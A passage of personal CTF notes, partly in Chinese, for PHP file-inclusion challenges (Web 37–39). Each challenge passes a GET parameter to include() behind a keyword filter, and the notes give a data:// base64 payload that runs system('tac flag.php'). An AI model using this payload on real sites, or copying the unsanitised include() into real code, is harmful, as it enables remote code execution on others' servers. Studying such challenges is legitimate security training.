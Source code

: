 ```PHP
*/  
  
//flag in flag.php  
error_reporting(0);  
if(isset($_GET['c'])){
	$c = $_GET['c'];  
    if(!preg_match("/flag/i", $c)){  
        include($c);  
        echo $flag;  
      
    }      
}else{
	highlight_file(__FILE__);  
}
```
这个命令太牛逼了，换成include不能用之前的东西了，这个还是可以：
```Bash
{URL}/?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
```
![[Pasted image 20240824204216.png]]
# Web 38
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-09-04 00:12:34  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-04 05:23:36  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
*/  
  
//flag in flag.php  
error_reporting(0);  
if(isset($_GET['c'])){
	$c = $_GET['c'];  
    if(!preg_match("/flag|php|file/i", $c)){  
        include($c);  
        echo $flag;  
    }  
}else{
	highlight_file(__FILE__);  
}
```
方法也是
```Bash
{URL}/?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
```
# Web 39
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-09-04 00:12:34  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-04 06:13:21  
# @email: h1xa@ctfer.com  
```